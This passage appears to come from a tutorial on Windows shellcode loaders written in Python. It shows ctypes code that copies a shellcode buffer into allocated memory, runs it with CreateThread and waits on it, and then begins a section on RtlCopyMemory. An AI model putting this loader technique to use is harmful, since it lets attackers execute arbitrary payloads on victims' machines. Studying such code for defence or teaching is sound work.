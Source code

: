 ```python
    ctypes.c_uint64(ptr_realloc),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.c_void_p(ptr_realloc),
    ctypes.pointer(ctypes.c_int(0)),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)

ctypes.windll.kernel32.WaitForSingleObject(
    ctypes.c_int(handle),
    ctypes.c_int(-1)
)
```

![](img/4.png)

### RtlCopyMemory
